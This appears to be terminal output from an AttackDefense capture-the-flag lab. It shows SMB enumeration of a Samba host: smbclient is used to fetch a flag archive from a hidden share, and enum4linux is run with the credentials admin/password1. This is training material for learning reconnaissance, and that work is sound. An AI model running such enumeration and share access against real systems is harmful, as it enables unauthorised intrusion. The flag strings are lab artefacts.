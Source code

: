 ```
root@attackdefense:~# cat flag 
a1157f23d040fb4bc6f9a7277de65bf7
root@attackdefense:~# rm flag
```

```
root@attackdefense:~# smbclient '\\192.58.213.3\admin' -U admin
Enter WORKGROUP\admin's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Oct 25 09:04:44 2022
  ..                                  D        0  Tue Nov 27 19:25:12 2018
  hidden                              D        0  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 46780284 blocks available
smb: \> cd hidden\
smb: \hidden\> dir
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Tue Oct 25 09:04:44 2022
  flag.tar.gz                         N      151  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 46780372 blocks available
smb: \hidden\> get flag.tar.gz 
getting file \hidden\flag.tar.gz of size 151 as flag.tar.gz (73.7 KiloBytes/sec) (average 73.7 KiloBytes/sec)
smb: \hidden\> exit
root@attackdefense:~# ls
README  flag.tar.gz  tools  wordlists
root@attackdefense:~# tar zxf flag.tar.gz 
root@attackdefense:~# ls
README  flag  flag.tar.gz  tools  wordlists
root@attackdefense:~# cat flag
2727069bc058053bd561ce372721c92e
```

```
root@attackdefense:~# enum4linux -u admin -p password1 -a 192.58.213.3
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Oct 25 09:31:50 2022

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.58.213.3
RID Range ........ 500-550,1000-1050
Username ......... 'admin'
Password ......... 'password1'
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ==================================================== 
|    Enumerating Workgroup/Domain on 192.58.213.3    |
 ==================================================== 
[+] Got domain/workgroup name: RECONLABS

 ============================================ 
|    Nbtstat Information for 192.58.213.3    |
 ============================================ 
Looking up status of 192.58.213.3
        RECONLABS       <00> - <GROUP> H <ACTIVE>  Domain/Workgroup Name
        RECONLABS       <1e> - <GROUP> H <ACTIVE>  Browser Service Elections
        SAMBA-RECON-BRU <00> -         H <ACTIVE>  Workstation Service
        SAMBA-RECON-BRU <03> -         H <ACTIVE>  Messenger Service
        SAMBA-RECON-BRU <20> -         H <ACTIVE>  File Server Service
```